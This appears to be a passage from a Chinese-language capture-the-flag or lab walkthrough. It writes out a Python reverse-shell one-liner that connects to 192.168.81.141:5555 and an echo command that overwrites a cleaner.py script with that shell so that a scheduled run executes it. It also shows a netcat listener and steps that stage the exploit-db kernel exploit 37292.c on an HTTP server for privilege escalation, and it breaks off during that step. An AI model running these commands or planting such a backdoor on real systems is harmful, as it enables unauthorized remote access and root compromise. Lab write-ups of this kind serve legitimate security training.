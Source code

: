 ### 3.1 python建立反弹shell脚本

各种类型的反弹shell在线生成https://shell.nctry.com/

```
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![image-20220304222622360](https://gitee.com/xxb667/img/raw/master/img/image-20220304222622360.png)



```
!/usr/bin/env python import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

由于我们不能直接编辑cleaner.py这个脚本，用echo命令把代码加到cleaner.py里面。

```shell
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.81.141",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /lib/log/cleaner.py
```

![image-20220304223650698](https://gitee.com/xxb667/img/raw/master/img/image-20220304223650698.png)

### 3.2Getshell：

kali开启监听：

```
nc -lvnp 5555
```



稍等1分钟左右就可以接收到反弹的shell

![image-20220304224722372](https://gitee.com/xxb667/img/raw/master/img/image-20220304224722372.png)

# 4.提权

内核版本为3.1.3  kali`searchsploit ubuntu`  可以内核提权 

## kali启动服务器：

```shell
 cp  /usr/share/exploitdb/exploits/linux/local/37292.c .
 python -m http.server 80
```

```
cp  /usr/share/exploitdb/exploits/linux/local/37292.c /home/xxb1
python2 -m SimpleHTTPServer 1234 
```
